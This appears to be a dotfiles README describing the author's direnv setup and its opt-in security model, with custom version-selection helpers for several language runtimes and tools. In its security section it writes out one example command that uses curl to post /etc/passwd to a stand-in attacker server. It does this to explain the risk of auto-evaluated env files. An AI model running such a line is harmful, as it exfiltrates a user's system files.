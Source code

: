# Direnv

[Direnv][direnv] has become more a part of my regular workflow as time goes on. It controls environment variables and can act as a set of project-specific hooks based on the current working directory, all with a system that requires explicit opt-in for security.

I use it here for sandboxing project settings in a way that doesn't affect my entire operating system.

Direnv primarily handles environment variables, which cover a lot more use cases than you would imagine. `PATH` is an environment variable that lets your shell know where to search for a given command. `LD_LIBRARY_PATH` tells a compiler (and there may be one built into something like `gem install` or `pip install` without you realizing) where to look for libraries and `.so` files. A majority of the functionality from Python's `virtualenv` feature is given by manipulating environment variables.

## Why Direnv?

### Directory-specific contexts

When working on a project, there are 3 things I typically do:

1. I change directory to the root of the project
2. I initialize a git repository
3. I start a tmux session within that directory, naming it accordingly

When I'm in that project directory, I'm thinking about the project itself. When I switch away to another directory, I'm also switching contexts to that other project. It stands to reason that the directory switch should also merit a context switch with my settings. This is where direnv comes in.

Direnv allows setting environment variables on entering a directory (or one of its subdirectories), and unsetting them on leaving the directory. This fits exactly with my use-case for context switching.

### Security controls included

By default, in case I'm storing project specific credentials as environment variables, I have `.envrc` globally ignored by git. That doesn't mean someone else hasn't included their own `.envrc` file into their repositories. With other tools like `dotenv`, their respective `.env` configurations would automatically read them and, in some cases, blindly `eval` their contents into the current shell session. This is a rather large security risk since it can possibly `curl -H 'Content-Type: text/plain' -X POST -d $(cat /etc/passwd) https://my-nefarious-server.example.com/secret-stealer`, thereby uploading your local machine's password hashes to some nefarious server they control.

Direnv doesn't allow that. If there is a new `.envrc` file, it requires manual confirmation that it is safe before it would try to evaluate it. Once it gets the go-ahead, it doesn't ask again unless that file changes. This forces the person cloning a repository to look at the `.envrc`, see the nefarious code, and re-evaluate if there might be other landmines in that code which makes it less desireable to use.

### Extensive standard library

While you _can_ put just environment variables in your `.envrc`, there's a whole world of customization available too. Calling `direnv stdlib` (or [`man direnv-stdlib`][direnv-stdlib]) will give you a peek into what is offered as far as syntax is concerned as far as the execution environment where `.envrc` is evaluated.

This means I can call `layout python /usr/local/bin/python3.8` and it will setup a python virtualenv for me using that specific python binary. I can do similar things with NodeJS, RVM, Rbenv, Anaconda, and others. On a more personal note, I've seen patterns for how this is implemented and extended it to integrate the tools I use first and foremost.

With my `direnvrc` (located at `~/.config/direnv/direnvrc`), I implement the back-end such that `use python 3.8` will find the latest installed Python version matching the 3.8.x specifier, as installed by Pyenv, setup my python virtualenv with that python binary, and activate that virtualenv purely on entering the directory. Similar can be said about NodeJS with node binaries provided by Nodeenv, ruby binaries provided by chruby/ruby-install, and so on.

I've even followed the same approach for having multiple `kubectl`, `terraform`, and `helm` binaries available and linked depending on the project specifics.

### Minimalism

Have an `.envrc` file that sets up the defaults for projects company-wide? You can inherit what's in that file and still add project specific settings by creating an `.envrc` in your project directory and calling `source_up` to read the `.envrc` in the parent/ancestor's directory.

Additional, direnv doesn't try to be something it's not. Shell functions are not exported, it only sets and manages environment variables. That's all that's translated through to your shell. This means you don't need to write your `.envrc` in `fish` syntax if you use the `fish` shell, or zsh if you use that shell.

## What's in it?

My [direnv][direnv] configuration has the following customizations from default:

- Use `nodenv`-supplied installations of NodeJS when calling `use node <version-specifier>`
- Use `ruby-install`-supplied installations of Ruby when calling `use ruby <version-specifier>`
- Use `pyenv`-supplied installations of Python when calling `use python <version-specifier>`
- Use `jabba`-supplied installations of Java when calling `use java <version-specifier>`
- Allow setting `chef shell-init` (ChefDK) only in projects where you work on Chef software, using `use chef`
- Control which version of Terraform to use with `use terraform 12`
- Control which version of Helm to use with `use helm 3.0.0-beta.3`
- Control which version of kubectl to use with `use kubectl 1.17.3`
- Control the current kubeconfig context with `use kubectx company-stage`
- Read project-specific NeoVim configurations with `use customized_vim` and a `.vimrc` file next to `.envrc`

[direnv]: https://direnv.net
[direnv-stdlib]: https://direnv.net/#man/direnv-stdlib.1
